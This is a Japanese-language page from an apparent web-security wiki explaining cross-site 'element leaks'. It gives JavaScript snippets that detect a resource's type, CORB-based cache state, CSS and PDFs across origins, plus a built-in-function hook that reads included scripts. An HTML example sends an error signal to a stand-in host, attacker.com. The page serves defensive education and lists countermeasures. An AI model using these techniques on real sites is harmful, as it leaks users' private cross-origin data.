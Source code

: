+++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

一部のHTML要素は、クロスオリジンのページにデータの一部をリークさせるために使用される可能性があります。 
たとえば、以下のようなメディアリソースは、サイズ、期間、種類に関する情報をリークさせる可能性があります。

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement)は、メディアの`duration`と`buffered`の時間をリークします。
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) は`videoHeight`と`videoWidth`をリークします。一部のブラウザでは、`webkitVideoDecodedByteCount`、 `webkitAudioDecodedByteCount`、`webkitDecodedFrameCount`も含む可能性があります
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality)は`totalVideoFrames`をリークします。
- [HTMLImageElement]（https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement）は`height`と`width`をリークしますが、画像が無効な場合には、それらは0となり、[`image.decode()`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode)は拒否されます。

メディアタイプの固有のプロパティによって、メディアタイプを区別することができます。
たとえば、`<video>`の場合は`videoWidth`、`<audio>`の場合は`duration`といった具合です。 
以下のコードは、リソースの種類を返すサンプルコードを示しています。

```javascript
async function getType(url) {
    // リソースがaudioもしくはvideoかどうかを検知
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // リソースがimageかどうかを検知
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## CORBの悪用

[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) は、間違ったコンテンツタイプが使用された場合にレスポンスを空にするChromeの機能です。
これは、コンテンツタイプが間違っている場合、キャッシュされないことを意味します。
 `ifCached` 関数については[Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}})の記事にて確認できます。

```javascript
async function isType(url, type = "script") {
  let error = false;
  // urlをパージする
  await ifCached(url, true);
  // リソースの読み込みを試行
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // CORBで許可されていれば、キャッシュされるのを待つ
  await new Promise(resolve => setTimeout(resolve, 500));
  // クリーンアップ
  document.head.removeChild(e);
  // ブロックされた"images"の修正
  if (error) return false
  return ifCached(url);
}
```

[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle)は、現在のページに埋め込まれたCSSスタイルシートを読み取るために使用することができます。
これは異なるオリジンから読み込まれたものも含みます。
この関数は、ボディに適用されたスタイルがあるかどうかをチェックするだけのものです。

```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```

## PDF
 [Open URL Parameters](https://bugs.chromium.org/p/chromium/issues/detail?id=64309#c113)には、`zoom`, `view`, `page`, `toolbar` などのコンテンツを制御することができるものが用意されています。 
chromeの場合、内部で`embed`を使用しているため、[frame counting]({{< ref "/docs/attacks/frame-counting.md" >}})でPDFを検出することが可能です。

```javascript
async function isPDF(url) {
    let w = open(url);
    await new Promise(resolve => setTimeout(resolve, 500));
    let result = (w.length === 1);
    w.close();
    return result;
}
```

{{< hint warning  >}} } ページに他の埋め込みがある場合、誤検知が発生します。 {{< /hint >}}

## スクリプトタグ
クロスオリジンのスクリプトがページに含まれる場合、その内容を直接読み取ることはできません。
しかし、スクリプトが組み込み関数を使用している場合には、関数を上書きすることでその引数を読むことができるため、機密情報をリークする可能性があります[^script-leaks]。

```javascript
let hook = window.Array.prototype.push;
window.Array.prototype.push = function() {
    console.log(this);
    return hook.apply(this, arguments);
}
```

## Javascriptが使用できない場合

JavaScriptが無効な場合でも、クロスオリジンのリソースに関するいくつかの情報が漏えいする可能性があります。
例えば、`<object>` を利用して、リソースがエラーコードで応答するかどうかを検出することができます。
リソース`//example.org/resource`が`<object data=//example.org/resource>fallback</object>`でエラーを返した場合、`fallback`がレンダリングされます[^fallback] [^leaky-images]。

内部に別の`<object>`を挿入して情報を外部サーバにリークしたり、CSS[^xsleaks-nojs]で検出したりすることができます。

以下のコードは `//example.org/404` を埋め込み、それが *Error* で応答した場合、 フォールバックとして`//attacker.com/?error` へのリクエストも行われます。

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

## 対策

| Attack Alternative | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :----------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
| Type leaks |                                         ✔️                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |

## 参考文献
[^script-leaks]: The Unexpected Dangers of Dynamic JavaScript. [link](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)   
[^fallback]: HTML Standard, [3.2.5.2.6 Embedded content], [link](https://html.spec.whatwg.org/multipage/dom.html#fallback-content)  
[^leaky-images]: Leaky Images: Targeted Privacy Attacks in the Web, [3.4 Linking User Identities], [link](https://www.usenix.org/system/files/sec19fall_staicu_prepub.pdf)  
[^xsleaks-nojs]: [https://twitter.com/terjanq/status/1180477124861407234](https://twitter.com/terjanq/status/1180477124861407234)  